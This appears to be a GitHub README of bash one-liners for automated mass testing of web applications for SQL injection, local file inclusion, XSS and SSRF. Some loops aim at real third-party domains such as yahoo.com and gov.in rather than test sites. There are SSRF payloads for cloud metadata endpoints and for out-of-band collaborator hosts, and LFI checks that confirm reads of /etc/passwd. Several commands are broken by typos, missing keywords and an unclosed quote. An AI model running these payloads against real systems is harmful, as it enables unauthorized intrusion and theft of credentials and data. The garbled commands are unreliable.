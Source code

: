 # WEBAPPLICATION-ATTACKS-SCRIPT
AUTOMATE WEB APPLICATION ATTACKS WITH SCRIPTS

**Error based sqli**

Target: http://TARGET.com/artists.php?artist=1

**Command:**
curl -sk "http://testphp.vulnweb.com/artists.php?artist=1" | grep -q "WHAT KIND for error for sql injection"

**Automation:**
gau -subs testphp.vulnweb.com | gf sqli | httpx | qsreplace "1'" | xargs -I{} sh -c 'curl -sk "{}" 2>&1 | grep -q "mysql_fetch_array" && echo " $(tput setaf 1)SQLI VULNERABLE $(tput setaf 3) %"'
gau -subs testphp.vulnweb.com | grep "=" | httpx -silent | qsreplace "1'" | xargs -I{} sh -c 'curl -sk "{}" 2>&1 | grep -q "mysql_fetch_array" && echo " $(tput setaf 1)SQLI VULNERABLE $(tput setaf 3) {}"' 

**FULL automation:**
for sqli $(cat sqliyaload.txt) ;do for url in $(gau -subs targets.txt | grep "=" | gf sqli | httpx | qsrepalce "$sqli") ;do echo "$url" | xargs -I{} sh -c 'curl -sk "{}" 2>&1 | grep -q "mysql_fetch_array" && echo "Error based SQLI {}"' ;done 


**Time based:**
payload used: ' or sleep(5)#

Normal testing:
time curl -s -I "http://testphp.vulnweb.com/artists.php?artist=1"
time curl -s -I "http://testphp.vulnweb.com/artists.php?artist=1 or sleep(10)#" 
 
 
**Automation:**
for sqli in $(cat sqlitime.txt) ;do for url in $(gau -subs yahoo.com) ;do  echo "$url" | qsreplace "$sqli"| parallel -j 10 'time curl -s -I "%"' ;print "timebase sqli without payload" ;echo "$url" | parallel -j 10 'time curl -s -I "%"' ;done ;done


**LFI:**

cat /payloads/pathtravers.txt | parallel -j 6 'curl -sk "http://testphp.vulnweb.com/showimage.php?file={}" 2>&1 | grep -q "root:x" && echo "VULN! LFI {}"'

for lfi in $(cat /payloads/pathtravers.txt ); do for  url  in $(gau -subs yahoo.com | gf lfi | qsreplace "$lfi"); do echo "urls" | parallel  -j 10 'curl -s "{}" 2>&1 | grep -q "root:x" && echo "LFI VULN! {}"' ; done ; done


**XSS:**

grep "?" | sort -u |  grep "=" | qsreplace "<img src=x onerror=alert(1)>" | xargs -I % sh -c 'curl -sk "%"   2>&1 | grep -q "alert(1)" --color && echo " $(tput setaf 1)XSS VULNERABLE $(tput setaf 3) %"'  --> automation

cat testparam.txt | parallel -j 5  echo "https://xss-game.appspot.com/level1/frame?{}" | qsreplace "<img src=x onerror=alert(1)>" | xargs -I % sh -c 'curl -sk "%"   2>&1 | grep -q "alert(1)" --color && echo " $(tput setaf 2)XSS VUL $(tput setaf 1 setab 7) %"'

for xss in $(cat /payloads/xss.txt ); do for  url  in $(gau -subs yahoo.com | gf lfi | qsreplace "$xss"); do echo "urls" | parallel  -j 10 'curl -s "{}" 2>&1 | grep -q "aler(1)" && echo "LFI VULN! {}"' ; done ; done

**SSRF:**
gau -subs testphp.vulnweb.com | grep "=" | qsreplace "http://169.254.169.254/latest/meta-data/hostname" | xargs -I% sh -c 'curl -sk "%" 2>&1 | grep "compute.internal" && echo " ssrf aws metadata %"'

**BLIND ssrf:**

gau -subs testphp.vulnweb.com | gf ssrf | qsreplace "http://burpcollaborator.net" | httpx -silent -proxy http://127.0.0.1:8080
subfinder -d yahoo.com -silent | httpx -silent -proxy http://127.0.0.1:8080 -H "Referer: http://burpcollaborator.net"


Command:

curl -sk "http://testphp.vulnweb.com/showimage.php?file=http://burpcollab.net" |httpx

**Automation:**
gau -subs testphp.vulnweb.com | grep "=" | httpx -silent | qsreplace "http://burpcollab.net" | xargs -I{} sh -c 'curl -sk "{}"

**FULL automation:**
for burpcoll $(cat burppayaload.txt) ;do for url in $(gau -subs targets.txt | grep "=" | gf ssrf | httpx | qsrepalce "$burpcoll") ;do echo "$url" | httpx -silent  ;done 

gau -subs gov.in | grep "=" | gf ssrf | httpx -silent | qsreplace "http://burpcollab.net" | parallel -j 30 curl -sk "{}"

**Blind SSRF by header:**
Target:
testphp.vulnweb.com

Command:
**FUll Automation:**
subfinder -d testphp.vulnweb.com -silent | httpx -H "Referer: http://burpcollab.net" 

**SSRF to access metadata**
Automation;
gau -subs testphp.vulnweb.com | grep "=" | qsreplace "http://169.254.169.254/latest/meta-data/hostname" | xargs -I% sh -c 'curl -sk "%" 2>&1 | grep "compute.internal" && echo " ssrf aws metadata %"'
